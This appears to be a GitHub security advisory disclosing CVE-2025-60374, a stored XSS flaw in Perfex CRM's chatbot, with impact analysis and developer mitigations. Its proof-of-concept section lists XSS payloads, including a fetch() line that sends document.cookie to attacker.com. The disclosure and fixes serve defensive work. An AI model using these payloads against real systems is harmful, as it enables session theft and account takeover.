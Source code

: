 # CVE-2025-60374
CVE-2025-60374: Stored Cross-Site Scripting (XSS) in Perfex CRM Chatbot

> **⚠️ Security Advisory**  
> A critical Stored Cross-Site Scripting vulnerability in Perfex CRM's chatbot feature

[![CVE](https://img.shields.io/badge/CVE-2025--60374-red)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-60374)
[![Severity](https://img.shields.io/badge/Severity-High-orange)]()
[![CWE](https://img.shields.io/badge/CWE-79-blue)](https://cwe.mitre.org/data/definitions/79.html)

---

## 📋 Overview

A Stored Cross-Site Scripting (XSS) vulnerability has been discovered in Perfex CRM's chatbot feature. This vulnerability allows attackers to inject malicious HTML and JavaScript code that gets stored on the server and executed in victims' browsers when they view chat messages.

## 🎯 Affected Versions

- **Product:** Perfex CRM
- **Vendor:** Perfex CRM
- **Vulnerable Versions:** < 3.3.1
- **Fixed Version:** 3.3.1+

## 🔍 Vulnerability Details

| Attribute | Value |
|-----------|-------|
| **CVE ID** | CVE-2025-60374 |
| **Type** | Stored Cross-Site Scripting (XSS) |
| **CWE** | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| **Attack Vector** | Network/Remote |
| **Authentication** | Required (Low Privilege) |
| **User Interaction** | None to Minimal |
| **Discoverer** | Ajansha Shankar |

### Description

The chatbot's message parameter in Perfex CRM lacks proper input sanitization and output encoding. When users submit messages through the chatbot interface, malicious HTML/JavaScript payloads are stored in the database without adequate filtering and subsequently rendered without proper escaping, leading to code execution in other users' browsers.

### Root Cause

- ❌ Insufficient input validation on chatbot message parameter
- ❌ Missing output encoding when rendering stored messages
- ❌ Session cookies not marked as `HttpOnly`
- ❌ Lack of Content Security Policy (CSP)

## 💥 Impact

### Security Implications

- **🔓 Session Hijacking:** Attackers can steal session tokens via `document.cookie` access
- **👤 Account Takeover:** Complete compromise of victim accounts
- **🎭 Privilege Escalation:** Administrator account compromise if admin views malicious message
- **📊 Data Exfiltration:** Access to sensitive information in user's browser context
- **🎪 Phishing:** Ability to modify page content and redirect users

### CIA Triad Assessment

| Factor | Impact | Explanation |
|--------|--------|-------------|
| **Confidentiality** | 🔴 HIGH | Session tokens and sensitive data can be stolen |
| **Integrity** | 🔴 HIGH | Unauthorized actions can be performed as the victim |
| **Availability** | 🟡 LOW | Limited impact on system availability |

## 🧪 Proof of Concept

### PoC 1: Basic Image XSS
```html
<img src=x onerror=alert('XSS executed!')>
```

### PoC 2: Interactive Button XSS
```html
<button onclick=alert('Click executed!')>Click here</button>
```

### PoC 3: Auto-playing Embedded Content
```html
<iframe width="560" height="315" 
src="https://www.youtube.com/embed/6B2jvf81LxE?playlist=Gvq4d460C1M&autoplay=1" 
frameborder="0" allow="accelerometer; autoplay; clipboard-write; 
encrypted-media; gyroscope; picture-in-picture" allowfullscreen>
</iframe>
```

### PoC 4: Event-based XSS
```html
<meter value=2 min=0 max=10 onmouseover=alert('XSS triggered!')>
2 out of 10
</meter>
```

### Real-World Attack Scenario

**Cookie Theft Example:**
```javascript
<img src=x onerror="fetch('https://attacker.com/steal?cookie='+document.cookie)">
```

This payload would send the victim's session cookie to an attacker-controlled server, enabling complete account takeover.

## 🛡️ Mitigation

### For End Users

1. **✅ Upgrade Immediately:** Update to Perfex CRM v3.3.1 or later
2. **🔍 Audit Messages:** Review chatbot history for suspicious HTML/JavaScript content
3. **🔄 Reset Sessions:** Force all users to re-authenticate after patching
4. **📝 Monitor Logs:** Check for unusual chatbot activity

### For Developers

#### Immediate Fixes
```php
// Input Sanitization Example
$message = htmlspecialchars($input_message, ENT_QUOTES, 'UTF-8');

// Output Encoding Example
echo htmlspecialchars($stored_message, ENT_QUOTES, 'UTF-8');
```

#### Long-term Security Improvements

1. **Content Security Policy (CSP)**
```http
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
```

2. **HttpOnly Cookies**
```php
setcookie('session', $value, [
    'httponly' => true,
    'secure' => true,
    'samesite' => 'Strict'
]);
```

3. **Input Validation Library**
```php
// Use DOMPurify, HTML Purifier, or similar
$clean_html = $purifier->purify($dirty_html);
```

## 📚 References

- [CWE-79: Cross-site Scripting (XSS)](https://cwe.mitre.org/data/definitions/79.html)
- [OWASP XSS Prevention Cheat Sheet](https://owasp.org/www-community/attacks/xss/)
- [CVE-2025-60374 Official Entry](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-60374)


## 👤 Credits

**Discovered by:** Ajansha Shankar

## 📧 Contact

For questions or additional information:
- **LinkedIn:** https://www.linkedin.com/in/ajansha-shankar/
